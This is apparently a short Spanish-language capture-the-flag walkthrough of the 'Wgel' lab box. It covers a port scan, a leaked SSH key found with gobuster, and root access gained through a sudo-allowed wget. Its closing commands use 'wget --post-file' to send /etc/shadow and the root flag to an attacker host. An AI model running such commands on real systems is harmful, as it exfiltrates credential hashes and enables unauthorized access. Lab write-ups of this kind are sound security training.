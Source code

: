 # Wgel
## Initial Scan
```
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 94:96:1b:66:80:1b:76:48:68:2d:14:b5:9a:01:aa:aa (RSA)
|   256 18:f7:10:cc:5f:40:f6:cf:92:f8:69:16:e2:48:f4:38 (ECDSA)
|_  256 b9:0b:97:2e:45:9b:f3:2a:4b:11:c7:83:10:33:e0:ce (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
```
## Enum
### HTTP 
En el source de la main page
```
 <!-- Jessie don't forget to udate the webiste -->
 ```
 Un user tal vez
 #### Gobuster 
 ```
 /sitemap (Status: 301)
 /sitemap/.ssh/ (Status: 301)
```

El segundo parece interesante , si accedemos vemos una clave RSA 

Tenemos una clave , tenemos un user , podriamos entrar?

## Privesc

Entramos como jessie y podemos leer la flag del user, veamos como escalar
```
User jessie may run the following commands on CorpOne:
    (ALL : ALL) ALL
    (root) NOPASSWD: /usr/bin/wget
```
Sin password solo wget , por suerte es bien conocido que con wget tenemos arbitrary file read/write

```
 sudo /usr/bin/wget --post-file=/etc/shadow IP:1234
```
Obtenemos el shadow y intentamos crackear el hash, aunque la way que se busca por lo visto es la siguiente
```
 sudo /usr/bin/wget --post-file=/root/root_flag.txt IP:1234
```
 
